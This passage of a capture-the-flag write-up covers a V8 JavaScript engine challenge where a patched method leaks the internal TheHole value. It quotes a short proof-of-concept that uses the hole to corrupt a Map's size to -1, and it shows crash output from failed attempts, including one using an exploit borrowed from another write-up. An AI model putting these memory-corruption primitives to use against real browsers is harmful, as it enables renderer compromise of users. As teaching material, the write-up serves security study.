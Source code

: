 Hmm... seems like they've patched in a new method to the `Object` class, `Object.leakHole()`, which does exactly what it sounds like it does - it returns the value of `TheHole`.

They've also patched out some of d8's debug functions. This doesn't really matter for our purposes.

While I am unfamiliar with V8, I _do_ know that there are several CTF challenges where you're given `TheHole` for free and expected to do the rest by yourself. [Here's](https://chovid99.github.io/posts/hitcon-ctf-2022/) one such example, which uses the following proof-of-concept to corrupt a `Map`'s size, and using that as a springboard for further exploitation:

```javascript
var map = new Map();
map.set(1, 1);
map.set(hole, 1);
// Due to special handling of hole values, this ends up setting the size of the map to -1
map.delete(hole);
map.delete(hole);
map.delete(1);

// Size is now -1
//print(map.size);
```

Cool! Let's use the code as a starting point to work off of-

```
root@d44668c015e0:/amarok# ./run.sh
0x009900002459 <the_hole>
./run.sh: line 1:    10 Trace/breakpoint trap   (core dumped) ./d8 exploit.js --allow-natives-syntax --startup-blob=snapshot_blob.bin
```

Oh. It doesn't work on this version anymore. (This will be a running theme throughout my attempts on this challenge.) According to [this article](https://medium.com/numen-cyber-labs/from-leaking-thehole-to-chrome-renderer-rce-183dcb6f3078) (which I have quoted exactly, typos included):

>Google fixed this exploit method as soon as possible. Functions, like `Map.prototype.delete,` `Set.prototype.delete`, `WeakMap.prototype.deleten` and `WeakSet.prototype.delete` , were patched by Hard check of TheHole. If the argument of key is TheHole, there is going to be a render crash.

That means we will have to think about something else entirely...

After some googling, I stumbled upon [this great writeup](https://cwresearchlab.co.kr/entry/Chrome-v8-Hole-Exploit)  by Rotiple_ (it's in Korean though) detailing how `TheHole` can still exploited, due to an unhandled case during optimisation of `JSToNumberConvertBigInt`. Wow! It even comes with a complete exploit! Surely it can't be that easy, right?

```
root@6a3823a2ddbf:/# cd amarok
root@6a3823a2ddbf:/amarok# ./run.sh


#
# Fatal error in ../../src/objects/object-type.cc, line 81
# Type cast failed in CAST(LoadFromObject(MachineTypeOf<T>::value, reference.object, offset)) at ../../src/codegen/code-stub-assembler.h:1342
  Expected FixedArrayBase but found 0x3ea1003ca761: [JSArray] in OldSpace
(...)
```
